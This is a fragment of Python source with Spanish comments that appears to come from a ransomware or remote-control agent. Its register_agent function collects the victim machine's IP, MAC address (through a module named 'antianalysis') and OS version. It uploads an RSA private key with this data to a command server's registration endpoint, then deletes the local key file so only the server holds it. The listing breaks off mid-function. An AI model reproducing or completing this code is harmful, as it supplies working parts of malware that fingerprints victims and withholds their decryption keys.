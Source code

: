 # Establecer el agent_id en un archivo
def set_agent_id(id):
    with open("agent_id.json", "w") as file:
        json.dump({"agent_id": id}, file)

# Obtener el agent_id desde el archivo
def get_agent_id():
    try:
        with open("agent_id.json", "r") as file:
            data = json.load(file)
            return data.get("agent_id")
    except (FileNotFoundError, json.JSONDecodeError):
        return None


def register_agent():
    ip = get_ip_address()
    mac = antianalysis.get_mac_address()
    so = platform.system() + platform.version()
    private_key = load_private_key()

    if private_key is None:
        print("No se pudo cargar la clave privada. No se puede registrar el agente.")
        return None
    
    server_url = 'http://127.0.0.1:5000/register_agent'
    data = {
        'ip': ip,
        'mac': mac,
        'so': so 
    }
    files = {
        'private_key': ('rsa_private.pem', private_key, 'application/x-pem-file')
    }

    response = requests.post(server_url, data=data, files=files)    
    if response.status_code == 200:
        response_json = response.json()
        agent_id = response_json.get('agent_id')
        set_agent_id(agent_id)  # Guardar el ID en JSON 
        print(f"Agente registrado con éxito. ID: {agent_id}")
        os.remove("rsa_private.pem")  # Eliminar la clave privada después de transmitirla correctamente
    else:
        print(f"Error al registrar el agente: {response.text}")
        return None

def get_private_key():
    # Obtener el ID del agente desde memoria
    agent_id = get_agent_id()
    if agent_id is None:
        print("No se ha registrado un agente. No se puede obtener la clave privada.")
        return None

